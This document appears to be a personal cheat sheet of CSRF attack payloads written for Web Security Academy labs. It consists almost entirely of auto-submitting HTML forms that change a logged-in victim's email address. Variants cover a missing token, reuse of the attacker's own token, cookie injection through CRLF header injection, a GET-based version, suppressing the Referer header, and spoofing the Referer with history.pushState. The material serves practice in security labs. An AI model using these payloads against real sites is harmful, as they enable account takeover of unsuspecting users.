 // csrf post request
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>

//with attacker csrf token
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
    <input type="hidden" name="csrf" value="lkcY00JNKqN6ywfIB9j0Ki89oPjB8gBb">
</form>
<script>
        document.forms[0].submit();
</script>

//with attacker csrf token and csrfkey cookie or related cookie to csrf || httpheader vulnerablity
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
    <input type="hidden" name="csrf" value="MREhwJjHDpaxKAh4wAiTebEevF08vamA">
</form>
<img src="<|vulnerable link></?link-enpoint|>%0d%0aSet-Cookie:%20<|COOKIE-VALUE|>=<|COOKIE-KEY|>%3b%20SameSite=None" onerror="document.forms[0].submit()">



// csrf get request
<form action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>


//with html body referre never and setheadder
<html lang="en">
<head>
    <meta name="referrer" content="never">
</head>
<body>
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
    
</body>
</html> 

//with html body referrer change
<html lang="en">
<body>
<script>history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")</script>
<form method="POST" action="<APIU>/my-account/change-email">
    <input type="hidden" name="email" value="pip3lee101@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
    
</body>
</html>  